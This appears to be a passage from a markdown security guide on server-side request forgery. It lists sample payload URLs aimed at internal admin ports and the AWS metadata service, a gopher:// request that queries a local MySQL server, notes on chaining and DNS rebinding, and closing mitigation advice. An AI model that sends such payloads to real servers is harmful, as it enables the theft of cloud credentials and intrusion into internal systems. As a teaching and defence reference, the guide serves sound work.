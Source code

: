 
## 3. Exploitation Techniques

### a. Basic SSRF Exploitation
1. **Access internal resources**
```
http://example.com/proxy?url=http://127.0.0.1:8080/admin
```

2. **Extract cloud metadata**
```
http://example.com/proxy?url=http://169.254.169.254/latest/meta-data/
```

### b. Advanced SSRF Techniques
1. **Protocol Abuse**
  - Use unconventional protocols like gopher:// for advanced attacks:
```
gopher://127.0.0.1:3306/_SHOW%20DATABASES
```

2. **Chaining Attacks**
  - Combine SSRF with Remote File Inclusion (RFI) or deserialization vulnerabilities.
3. **DNS Rebinding**
  - Trick the server into resolving an external domain to an internal IP.


## 4. Example Scenarios

### a. Cloud Metadata Access

### Target
  - AWS metadata service at http://169.254.169.254.

### Malicious Input
```
http://example.com/proxy?url=http://169.254.169.254/latest/meta-data/
```

### Impact
  - Extract AWS credentials, tokens, or configuration.


## 5. Mitigation Techniques

### a. Validate and Sanitize User Input
  - **Only allow specific, trusted URLs using a whitelist**.
  - **Reject suspicious patterns** like 127.0.0.1, 169.254.169.254, or internal hostnames.

### b. Restrict Network Access
  - **Isolate server roles** to limit their ability to make external or internal requests.
  - **Use firewalls** to block access to private IP ranges.

